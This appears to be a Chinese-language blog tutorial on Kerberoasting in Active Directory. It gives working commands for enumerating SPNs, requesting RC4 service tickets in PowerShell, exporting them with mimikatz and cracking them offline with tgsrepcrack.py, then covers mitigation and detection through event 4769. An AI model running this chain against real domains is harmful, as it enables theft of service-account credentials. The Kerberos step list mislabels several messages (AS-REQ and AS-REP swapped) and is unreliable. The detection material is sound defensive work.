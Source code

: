 # Kerberoast/Kerberoasting:攻击与检测

## 讲在前面: <a id="jiang-zai-qian-mian"></a>

Kerberoasting攻击手法在域渗透中是必不可缺的一项手法，它可以帮助你利用普通用户的权限在AD中提取到服务账户的凭据，又因为一般的服务账户密码策略可能较为薄弱或密码设置为永不过期等等。所以当攻击者拿到服务凭据后，花不了多大功夫就将其暴力破解了。

**注意:**

Windows系统默认的服务已经映射到AD中的计算机账户中，该类账户具有关联的128个字符的密码，破解起来相对费劲。

针对这个问题我们需要了解如下两个协议，当然在这里我们只能简单的介绍，笔者参考了如下几篇优秀的论文以帮助您来了解Kerberos协议和SPN协议

## Kerberos协议及其通信过程

这里我们来简单而又快速的了解Kerberos协议及其通信过程

![](https://img-blog.csdnimg.cn/20201006120451968.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

> 1. AS-REP：客户端向KDC中心发起验证请求，请求内容内容为客户端Hash加密的时间戳等数据
> 2. AS-REQ：KDC响应请求，使用以存储的客户端Hash解密AS\_REP数据包，如果验证成功，那么就返回使用krbtgt加密的TGT票据，TGT内包含PAC，PAC包含客户端所在的组，sid等
> 3. TGS-REP：客户端拿到TGT后向KDC发起针对特定服务的TGS-REQ请求
> 4. TGS-REQ：KDC接受到请求后，使用krbtgt hash进行解密，如果结果正确，那么就返回使用服务hash加密的TGS票据（这一步不管客户端有无访问服务的权限，只要TGT正确，就返回TGS）
> 5. AS-REP：客户端拿着TGS请求特定服务
> 6. AS-REQ：服务使用自己的hash解密TGS票据，如果解密正确，就拿着PAC去KDC问客户端有无权限，域控解密PAC，查询客户端的ACL并将结果返回给服务端，服务端根据权限来判断是否返回数据给客户端。

## SPN协议

该协议的介绍，笔者在之前的文章已经做了文章——“SPN协议”。在此笔者不做过多赘述，这里介绍Kerberoasting和SPN和Kerberos的联系。

我们发现在Kerberos协议进行到第四步的时候，不管客户端有无权限，只要TGT正确，就返回TGS票据，而恰恰巧的是，域内任何的用户都可以向域内的任何服务请求TGS，再加上TGS的生成是使用服务账户的hash进行RC4-HMAC算法加密，站在利用的角度，我们是可以尝试使用强大的字典进行暴力破解票据的。

因此，高效率的利用思路如下：

1. 查询SPN，找到有价值的SPN，需要满足以下条件：
   * 该SPN注册在域用户帐户\(Users\)下
   * 域用户账户的权限很高
2. 请求TGS
3. 导出TGS
4. 暴力破解

使用setspn或powerview\(powershell模块Active Directory 需要提前安装，域控制器一般会安装,也可自行安装\)等工具

```text
import-module .\Microsoft.ActiveDirectory.Management.dll
```

###  查询SPN：

```text
setspn -q */*
```

![](https://img-blog.csdnimg.cn/20201006122707689.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

```text
Get-NetUser -spn
```

![](https://img-blog.csdnimg.cn/20201002204941587.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

### 使用以下PowerShell命令来请求RC4加密的Kerberos TGS服务票证：

请求指定TGS

```text
$SPNName = 'VNC/DC1.test.com'Add-Type -AssemblyNAme System.IdentityModelNew-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
```

请求所有TGS

```text
Add-Type -AssemblyName System.IdentityModel  setspn.exe -q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }  
```

执行后输入`klist`查看内存中的票据，可找到获得的TGS![](https://img-blog.csdnimg.cn/20201006123910137.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

### 导出TGS

使用minikatz：

```text
kerberos::list /export
```

或者使用empire的kerberoast模块或者使用PowerSploit中的Invoke-Kerberoast组件

### 破解

使用[tgsrepcrackck.py](https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py)开始离线密码破解，或者使用[kirbi2john.py](https://github.com/magnumripper/JohnTheRipper/blob/bleeding-jumbo/run/kirbi2john.py)从原始票据中提取可破解的哈希格式 ，这儿也有[go的版本](https://github.com/leechristensen/tgscrack)

[https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py](https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py)

```text
./tgsrepcrack.py wordlist.txt test.kirbi
```

 缓解Kerberoasting

站在防御的角度，不可能阻止kerberoast，但可以缓解：

* 确保服务账户的密码长于25个字符并且满足复杂要求
* 定期修改服务的相关联的域用户的密码
* 配置日志以检测Kerberoasting活动

## 配置日志以检测Kerberoasting活动

在域控的高级安全审核策略中，开启账户登录中的“审核Kerberos服务票证操作”来记录Kerberos TGS服务票据的请求情况。

开启后会记录一下两个事件：

* 4769：已请求Kerberos服务票证（TGS）
* 4770：已更新Kerberos服务票证

![](https://img-blog.csdnimg.cn/20201006125036934.png)

不过也会造成一定的日志冗余，因为在用户初始登录时、在用户访问域内某些服务时，事件4769会被记录很多次。不过相对5136这样的筛选日志平台连接的日志来说也不算太多。

所以我们可以针对域内某些发起多次Kerberos请求的用户进行监控，从而来检测Kerberboasting活动，不过我们也要对日志进行筛选，根据漏洞特征来看我们只针对加密类型为RC4的，而日志里显示给我们看的就是如下：

* 票证选项：0x40810000
* 票证加密：0x17

![](https://img-blog.csdnimg.cn/20201006125710506.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

同时使用DES加密的也不安全，所以我必须检测同时满足这几个条件的或者满足其中某一条的，我们就可以更加精准的通过日志来检测了

再者，我们也可以通过创建Kerberoast服务账户蜜罐，通过蜜罐来防御，也可以同时根据相应的漏洞的打法制定相应的检测规则来进行防御。



